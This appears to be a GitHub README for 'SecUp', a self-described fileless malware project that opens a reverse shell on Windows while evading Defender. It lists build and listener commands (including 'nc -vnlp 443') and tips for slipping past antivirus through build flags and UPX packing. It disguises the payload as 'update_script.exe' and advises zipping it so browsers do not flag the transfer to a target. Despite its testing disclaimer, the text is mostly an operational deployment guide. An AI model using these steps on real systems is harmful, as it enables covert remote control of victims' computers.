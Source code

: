 # SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup and Execution<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build **SecUp.go**<br>
`go build SecUp.go`
3. Run **SecUp <LHOST>**<br>
`./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Open another terminal, and compile EXE<br>
`GOOS=windows go build update_script.go`
  - A word about comipiling for Windows...
    + I've experienced Golang binaries getting flagged as malware, even "Hello, World!"
      - I've read that removing `-ldflags` and `-trimpath` may help and that the standard build is best for AV evasion
      - I've also read that packing can trip AV detection as well and again the standard build is best for AV evasion
        + BUT if you'd like to make the binary smaller...
          - `GOOS=windows go build -ldflags "-s -w" -trimpath update_script.go`<br>
          - `upx -9 update_script.exe`  
6. Back at the SecUp terminal<br>
`Press ENTER to continue...`
7. Upload and execute `update_script.exe` to target any way you like<br>
8. Shellz! :)
<P></P>
I would recommend putting `update_script.exe` in a zip file for transfer to target as most browsers don't like when you download rando exectuables and will complain.
<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>






https://github.com/daniellowrie/update_script/assets/19762230/a83d13e4-108f-4406-b307-bf18704d4278


